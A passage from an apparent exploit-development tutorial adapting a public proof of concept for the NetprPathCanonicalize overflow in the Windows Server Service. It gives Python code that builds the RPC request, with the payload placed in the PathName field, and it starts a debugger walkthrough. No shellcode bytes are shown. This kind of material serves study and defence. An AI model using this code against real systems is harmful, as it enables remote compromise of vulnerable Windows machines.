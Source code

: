 
are really close to what I need, so I adapted this to the following code, refering to the stub definition in [3]:

```python
class NetprPathCanonicalize(Structure):
    opnum = 31
    alignment = 4
    structure = (
        ('RefID','<L&ServerName'),
        ('ServerName','w'),
        ('PathName','w'),
        ('OutbufLen','<H'),
        ('Prefix','w'),
        ('PathType','<H'),
        ('Flags','<H')
    )
```

and

```python
self.query = NetprPathCanonicalize()
self.query['ServerName'] = "ABCDEF\x00".encode('utf-16le')
self.query['PathName'] = self.__stub
self.query['OutbufLen'] = 60
self.query['Prefix'] = "\\\x00".encode('utf-16le')
self.query['PathType'] = 4096
self.query['Flags'] = 0x0
```

Pretty much the only other change I made to the Debasis Mohanty proof of concept code is the shellcode and the payload hexadecimal, which is all contained in one parameter within the NetprPathCanonicalize call, the PathName parameter. For my implementation of the exploit I will build this path payload from the ground up, and In the next section, I will document this process in depth.

[0] http://www.vividmachines.com/shellcode/shellcode.html

[1] https://www.exploit-db.com/docs/320.pdf

[2] https://winworldpc.com/

[3] https://msdn.microsoft.com/en-us/library/cc247258.aspx


# Developing the Payload using OllyDbg

### Screen 0)



A screenshot of the call stack, as mentioned in the original exploit blurb we can see that NetprPathCanonicalize is called from NetAPI32.dll, which in turn is called from the Server Service (srvsvc).
